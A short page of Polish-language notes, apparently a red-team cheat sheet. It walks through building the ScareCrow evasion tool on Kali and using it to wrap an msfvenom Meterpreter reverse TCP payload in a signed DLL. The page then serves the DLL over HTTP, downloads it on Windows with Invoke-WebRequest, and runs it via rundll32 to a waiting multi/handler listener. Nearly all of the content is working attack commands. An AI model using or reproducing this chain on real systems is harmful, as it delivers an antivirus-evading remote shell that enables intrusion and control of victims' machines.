 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# ScareCrow Kali

{% code fullWidth="true" %}
```
#instalka
git clone https://github.com/optiv/ScareCrow.git
cd /tools/ScareCrow
apt install golang-go
go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo
sudo apt update
apt install openssl
apt install osslsigncode
apt install mingw-w64

go build ScareCrow.go
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```
#tworzymy payload
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.20.10.31 LPORT=8888 -f raw > home/kali/Desktop/test
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```
#obfuskujemy
./ScareCrow -I /home/kali/Desktop/test -Loader dll -domain www.acme.com

#i stworzył ddl
```
{% endcode %}

{% code fullWidth="true" %}
```
#udostępniamy katalog z plikiem
python -m http.server 8081
```
{% endcode %}

**Win**

```
#ściągamy tego dll
Invoke-WebRequest -uri http://10.20.10.31:8081/apphelp.dll -OutFile apphelp.dll
```

**Kali**

```
#uruchamiamy listenera
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 10.20.10.31
set lport 8888
run
```

**Win**

```
#uruchamiamy stworzoną dll
rundll32.exe .\apphelp.dll,DllRegisterServer
```
